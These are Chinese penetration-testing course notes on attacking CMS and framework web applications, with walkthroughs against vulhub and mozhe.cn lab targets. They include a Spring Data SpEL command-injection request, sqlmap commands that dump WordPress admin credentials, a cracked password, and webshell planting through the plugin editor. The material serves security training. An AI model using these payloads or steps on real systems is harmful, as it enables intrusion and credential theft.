

## 思维导图


## 相关概念

### 已知 CMS

如常见的 dedecms.discuz,wordpress 等源码结构，这种一般采用非框架类开发，但也有少部分采用的
是框架类开发，针对此类源码程序的安全检测，我们要利用公开的漏洞进行测试，如不存在可采用
白盒代码审计自行挖掘。

### 开发框架

如常见的 thinkphp，spring,flask 等开发的源码程序，这种源码程序正常的安全测试思路：先获取对
应的开发框架信息(名字，版本)，通过公开的框架类安全问题进行测试，如不存在可采用白盒代码审
计自行挖掘。

### 未知 CMS

如常见的企业或个人内部程序源码，也可以是某 CMS 二次开发的源码结构，针对此类的源码程序测
试思路：能识别二次开发就按已知 CMS 思路进行，不能确定二次开发的话可以采用常规综合类扫描
工具或脚本进行探针，也可以采用人工探针（功能点，参数，盲猜），同样在有源码的情况下也可以
进行代码审计自行挖掘

## 演示案例：

### 开发框架类源码渗透测试报告-资讯-thinkphp,spring

#### thinkphp


输入错误url，报错显示Thinkphp版本

同样


#### spring

vulhub靶场


payload

```txt
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```


### 已知 CMS 非框架类渗透测试报告-工具脚本-wordpress

靶场地址[https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe)

采用WordPress  CMS


wpscan 扫描


构造链接

```html
http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a
```


使用sqlmap快开始跑

```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" --dbs
```




```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" --tables
```


```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" -T "wp_users --columns
```


```python
python sqlmap.py -u "http://124.70.71.251:47438/wp-content/plugins/comment-rating/ck-processkarma.php?id=2&action=add&path=a" -D "test" -T "wp_users" -C "user_login,user_pass" --dump
```


```
admin

$P$Bj8Pp.mH8GIjcXQqp1ZuyRw7i4oV72.
```

md5 查询 ————————》12qwaszx


查一下后台地址，登录后台


在插件中添加一句话小马


蚁剑连接

```
http://124.70.71.251:47438/wp-admin/plugin-editor.php?file=comment-rating/comment-rating.php
```


获取到key

mozheaac6be9855cd7bd73e3af588587

### 已知 CMS 非框架类渗透测试报告-代码审计-qqyewu_php

分析~~~


### 未知 CMS 非框架类渗透测试报告-人工-你我都爱的 wg 哦~

实战

```txt
DedeCMS
查看版本信息
/data/ admin/ver.txt
默认后殆
/dede
爆后台路径
/data/mysql_ error_ _trace.inc

弱口令
扫端口nmap -sV
后台备份文件压缩包
```


## 涉及资源：

[https://vulhub.org/](https://vulhub.org/)
[https://wpvulndb.com/users/sign_up](https://wpvulndb.com/users/sign_up)
[https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
[https://github.com/ajinabraham/CMSScan](https://github.com/ajinabraham/CMSScan)
[https://pan.baidu.com/s/1KCa-5gU8R8jPXYY19vyvZA 提取码：xiao](https://pan.baidu.com/s/1KCa-5gU8R8jPXYY19vyvZA 提取码：xiao)
[https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/S0JTL0F4RE1sY2hGdHdwcUJ6aUFCQT09bW96aGUmozhe)


